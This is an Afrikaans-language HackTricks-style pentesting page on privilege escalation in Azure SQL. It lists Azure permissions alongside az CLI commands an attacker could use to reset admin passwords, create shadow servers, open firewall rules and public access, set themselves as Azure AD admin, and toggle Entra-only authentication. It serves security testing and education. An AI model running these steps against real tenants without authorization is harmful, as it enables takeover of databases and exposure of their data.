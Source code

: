 # Az - SQL Databasis Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Databasis Privesc

Vir meer inligting oor SQL Databasis, kyk:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### "Microsoft.Sql/servers/read" && "Microsoft.Sql/servers/write"

Met hierdie toestemmings kan 'n gebruiker privilige-escalasie uitvoer deur Azure SQL bedieners op te dateer of te skep en kritieke konfigurasies te wysig, insluitend administratiewe akrediteer. Hierdie toestemming laat die gebruiker toe om bediener eienskappe op te dateer, insluitend die SQL bediener admin wagwoord, wat ongeoorloofde toegang of beheer oor die bediener moontlik maak. Hulle kan ook nuwe bedieners skep, wat potensieel skadu-infrastruktuur vir kwaadwillige doeleindes kan inbring. Dit word veral krities in omgewings waar "Microsoft Entra Authentication Only" gedeaktiveer is, aangesien hulle SQL-gebaseerde autentisering kan benut om onbeperkte toegang te verkry.
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_password>
```
Boonop is dit nodig om die publieke toegang geaktiveer te hê as jy van 'n nie-private eindpunt wil toegang verkry, om dit te aktiveer:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
### "Microsoft.Sql/servers/firewallRules/write"

'n Aanvaller kan firewallreëls op Azure SQL-bedieners manipuleer om ongeoorloofde toegang toe te laat. Dit kan benut word om die bediener oop te maak vir spesifieke IP-adresse of hele IP-reekse, insluitend openbare IP's, wat toegang vir kwaadwillige akteurs moontlik maak. Hierdie post-exploitasiemaatreël kan gebruik word om bestaande netwerkveiligheidsbeheer te omseil, volharding te vestig, of laterale beweging binne die omgewing te fasiliteer deur sensitiewe hulpbronne bloot te stel.
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
Boonop, `Microsoft.Sql/servers/outboundFirewallRules/delete` toestemming laat jou toe om 'n Firewall Reël te verwyder.  
LET WEL: Dit is nodig om die publieke toegang geaktiveer te hê.

### ""Microsoft.Sql/servers/ipv6FirewallRules/write"

Met hierdie toestemming kan jy IPv6 firewall reëls op 'n Azure SQL Server skep, wysig of verwyder. Dit kan 'n aanvaller of gemagtigde gebruiker in staat stel om bestaande netwerk sekuriteitskonfigurasies te omseil en ongemagtigde toegang tot die bediener te verkry. Deur 'n reël toe te voeg wat verkeer van enige IPv6 adres toelaat, kan die aanvaller die bediener oopmaak vir eksterne toegang.
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
Daarnaast laat die `Microsoft.Sql/servers/ipv6FirewallRules/delete` toestemming jou toe om 'n Firewall Reël te verwyder.  
LET WEL: Dit is nodig om die publieke toegang geaktiveer te hê.

### "Microsoft.Sql/servers/administrators/write" && "Microsoft.Sql/servers/administrators/read"

Met hierdie toestemmings kan jy privesc in 'n Azure SQL Server omgewing deur toegang te verkry tot SQL databasisse en kritieke inligting te verkry. Deur die onderstaande opdrag te gebruik, kan 'n aanvaller of gemagtigde gebruiker hulself of 'n ander rekening as die Azure AD administrateur stel. As "Microsoft Entra Authentication Only" geaktiveer is, kan jy toegang tot die bediener en sy instansies verkry. Hier is die opdrag om die Azure AD administrateur vir 'n SQL bediener in te stel:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### "Microsoft.Sql/servers/azureADOnlyAuthentications/write" && "Microsoft.Sql/servers/azureADOnlyAuthentications/read"

Met hierdie toestemmings kan jy "Microsoft Entra Authentication Only" op 'n Azure SQL Server konfigureer en afdwing, wat privilige-escalasie in sekere scenario's kan vergemaklik. 'n Aanvaller of 'n gemagtigde gebruiker met hierdie toestemmings kan Azure AD-slegs verifikasie aktiveer of deaktiveer.
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
{{#include ../../../banners/hacktricks-training.md}}
